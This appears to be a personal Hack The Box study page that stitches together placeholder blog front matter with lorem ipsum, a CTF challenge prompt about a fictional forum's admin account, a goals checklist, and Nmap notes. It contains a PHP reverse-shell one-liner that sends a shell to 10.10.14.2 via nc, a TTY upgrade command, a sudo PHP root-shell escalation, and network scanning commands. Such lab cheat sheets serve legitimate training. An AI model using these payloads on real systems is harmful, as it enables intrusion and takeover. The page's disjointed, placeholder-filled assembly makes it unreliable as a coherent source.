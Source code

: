 ```yaml
---
title: "Super cool article that I wrote"
summary: "Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aenean in eleifend justo, vestibulum congue lacus. Quisque est libero, lacinia sed placerat ac, interdum id urna."
categories: ["Post"]
tags: ["Blog", "post", "lorem", "ipsum"]
date: 2022-09-04
draft: false
---
```




Volnaya Forums

"The Volnaya Forums stand as a sprawling network where citizens compete to outdo each other in public displays of loyalty. Every post and reply is carefully monitored, and the most zealous praise is rewarded with higher loyalty scores. Behind the scenes, a small cadre of administrators wields absolute control, silencing dissent and shaping the narrative to serve the regime’s ambitions. Task Force Phoenix has identified the forum’s admin account as a critical target. Gaining access would allow the task force to disrupt the flow of propaganda and strike a blow against the regime’s information control. Recently, we managed to secure a backup copy of the forum server from an unsecured FTP server. Can you analyze the platform’s architecture and code to uncover any weaknesses that might grant us access to the admin account?"


### Remote code execution
**PHP code**

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

**Upgrading shell to TTY**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Privilege Escalation via PHP

You can spawn a root shell like this:

`sudo /usr/bin/php -r 'system("/bin/bash");'`


## Way Forward


- [ ]  Root a Retired Easy Box  
    
- [ ]  Root a Retired Medium Box  
    
- [ ]  Root an Active Box  
    
- [ ]  Complete an Easy Challenge  
    
- [ ]  Share a Walkthrough of a Retired Box  
    
- [ ]  Complete Offensive Academy Modules  
    
- [ ]  Root Live Medium/Hard Boxes  
    
- [ ]  Complete A Track  
    
- [ ]  Win a `Hack The Box Battlegrounds` Battle  
    
- [ ]  Complete A Pro Lab


# Host Discovery Using Nmap

```
sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
```

## Nmap Banner Grabbing

```
nmap 10.129.96.46 -p 22,80,110,139,143,445,31337 -sV -Pn -n --disable-arp-ping --packet-trace
```

# Nmap Scripting Engine

---

Nmap Scripting Engine (`NSE`) is another handy feature of `Nmap`. It provides us with the possibility to create scripts in Lua for interaction with certain services. There are a total of 14 categories into which these scripts can be divided:

| **Category** | **Description**                                                                                                                         |
| ------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| `auth`       | Determination of authentication credentials.                                                                                            |
| `broadcast`  | Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans. |
| `brute`      | Executes scripts that try to log in to the respective service by brute-forcing with credentials.                                        |
| `default`    | Default scripts executed by using the `-sC` option.                                                                                     |
| `discovery`  | Evaluation of accessible services.                                                                                                      |
| `dos`        | These scripts are used to check services for denial of service vulnerabilities and are used less as it harms the services.              |
| `exploit`    | This category of scripts tries to exploit known vulnerabilities for the scanned port.                                                   |
| `external`   | Scripts that use external services for further processing.                                                                              |
| `fuzzer`     | This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time.     |
| `intrusive`  | Intrusive scripts that could negatively affect the target system.                                                                       |
| `malware`    | Checks if some malware infects the target system.                                                                                       |
| `safe`       | Defensive scripts that do not perform intrusive and destructive access.                                                                 |
| `version`    | Extension for service detection.                                                                                                        |
| `vuln`       | Identification of specific vulnerabilities.                                                                                             |